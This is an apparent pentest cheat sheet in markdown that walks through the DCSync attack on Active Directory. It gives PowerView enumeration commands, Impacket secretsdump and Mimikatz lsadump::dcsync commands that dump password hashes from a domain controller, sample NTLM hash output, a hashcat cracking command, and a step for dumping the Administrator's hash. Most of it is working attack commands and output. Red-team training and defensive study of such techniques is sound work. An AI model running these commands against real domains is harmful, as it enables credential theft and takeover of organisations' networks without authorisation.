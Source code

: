 # Domain Controller Synchronization (dcsync)
## Overview
**DCSync** is an attack that leverages the Directory Replication Service Remote Protocol (DRSR) to impersonate a Domain Controller (DC) and request replication of password data from Active Directory (AD). By abusing the extended rights (specifically, the _DS-Replication-Get-Changes_ and _DS-Replication-Get-Changes-All_ permissions), an attacker can retrieve password hashes (and sometimes even cleartext passwords) for AD accounts.
### 1. Reconnaissance and User Enumeration

**Goal:** Identify the target user and verify their group memberships.
**Sample Command (using PowerView in PowerShell):**

```powershell
Get-DomainUser -Identity adunn | Select-Object samaccountname, objectsid, memberof, useraccountcontrol | Format-List
```

- **What It Does:** Retrieves details about the user (here, “adunn”), including the SID, group memberships, and account control settings.

---

### 2. Verify Replication Rights
Required privileges to perform replication:
        - **Replicating Directory Changes**
        - **Replicating Directory Changes All**
        - **Replicating Directory Changes in Filtered Set**
    - By default, members of the following groups have these rights:
        - Domain Admins
        - Enterprise Admins
        - Administrators
        
**Goal:** Confirm that the target (or another account you control) has the required replication privileges.

**Sample Command (using PowerView):**

```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"  # Replace with the actual SID
Get-ObjectAcl "DC=yourdomain,DC=com" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -match 'Replication-Get' } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType |
    Format-List
```

- **What It Does:** Scans the ACLs on the domain object (e.g., `DC=yourdomain,DC=com`) and filters for ACEs related to replication. Check for entries such as `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` for the target SID.

---

### 3. Executing the DCSync Attack with Impacket’s secretsdump.py

**Goal:** Request replication from the DC and extract sensitive credential data.

**Sample Command (from a Linux or Windows system with Python and Impacket installed):**

```bash
secretsdump.py -outputfile domain_hashes -just-dc YOURDOMAIN/targetUser@targetIP
```

- **Parameters:**
    - `YOURDOMAIN`: Replace with your actual domain name.
    - `targetUser`: The username that has replication privileges.
    - `targetIP`: The IP address of the domain controller.

**Or** 
       
        ```bash
        impacket-secretsdump -just-dc-user <username> <domain>/<admin_user>:<password>@<dc_ip>
        ```
        
    - **Example**:
        
        ```bash
        impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
        ```
        
    - **Result (Extract)**:
        
        ```
        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
        dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
        ```
        
- **What It Does:** Initiates a replication request mimicking a DC. It writes out the NTLM hashes, Kerberos keys, and, if applicable, cleartext passwords to files prefixed with `domain_hashes`.

**After Running, List the Files:**

```bash
ls domain_hashes*
```

- **Expected Files:**
    - `domain_hashes.ntds` – Contains NTLM hashes.
    - `domain_hashes.ntds.kerberos` – Contains Kerberos keys.
    - `domain_hashes.ntds.cleartext` – Contains any cleartext credentials (if reversible encryption is enabled).

---

### 4. Executing the DCSync Attack with Mimikatz
**Run Mimikatz**
    
    ```bash
    .\mimikatz.exe
    ```
    
    - **Command**: Dump the NTLM hash of a target user:
        
        ```bash
        lsadump::dcsync /user:<domain>\<username>
        ```
        
    - **Example**:
        
        ```bash
        lsadump::dcsync /user:corp\dave
        ```
        
    - **Result (Extract)**:
        
        ```
        Credentials:
            Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
        ```
        
3. **Crack the NTLM Hash**
    
    - **Command**:
        
        ```bash
        hashcat -m 1000 <hash_file> <wordlist> -r <rule_file> --force
        ```
        
    - **Example**:
        
        ```bash
        hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
        ```
        
4. **Dump Domain Admin Hashes**
    
    - Dump credentials of the **Administrator** user:
        
        ```bash
        lsadump::dcsync /user:corp\Administrator
        ```
